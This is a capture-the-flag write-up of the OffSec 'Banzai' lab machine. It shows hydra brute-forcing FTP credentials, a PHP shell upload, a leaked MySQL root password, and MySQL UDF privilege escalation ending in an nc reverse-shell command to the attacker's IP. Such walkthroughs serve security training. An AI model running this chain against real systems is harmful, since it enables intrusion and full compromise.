 ```yaml
---
title: "Proving grounds Practice: Banzai"
layout: post
date: 2024-01-15 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- 
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
5432/tcp open  postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open  http       Apache httpd 2.4.25
8295/tcp open  http       Apache httpd 2.4.25 ((Debian))
```

## 21/tcp   open  ftp        vsftpd 3.0.3

anonymous login prohibited
user:system - failed

Crack the password using hydra.

```sh
naveenj@hackerspace:|10:55|~/proving_grounds/Banzai$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.217.56
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-21 10:57:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.217.56:21/
[21][ftp] host: 192.168.217.56   login: admin   password: admin
```

## Login to FTP server

- upload php shell and trigger it to get initial foothold.
- Try reverse connection port as 22.

Found Database credentials.php

```text
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
```

## Privilege Escalation

Download exploit

- https://www.exploit-db.com/exploits/1518

Connect to mysql db

```sh
ww-data@banzai:/var/www/html$ mysql -uroot -pEscalateRaftHubris123
mysql -uroot -pEscalateRaftHubris123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.30 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

## Download precompiled lib from metasploit

- https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql

upload through ftp

```sh
mysql> use mysql;	#select db
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);		#create table
create table trenchesofit(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));	#upload exploit lib
insert into trenchesofit values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';	#upload exploit to mysql lib
select * from trenchesofit into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
Query OK, 1 row affected (0.03 sec)

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';	#use lib
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 192.168.45.160 22');	#exec command
select sys_exec('nc -e /bin/bash 192.168.45.160 22');
```

![img](/assets/images/CTF/Proving_Grounds/Banzai/root.png)

**Root Obtained**

## Important Takeaway
- The lib file has to be place in /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so folder else the exploit won't work.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).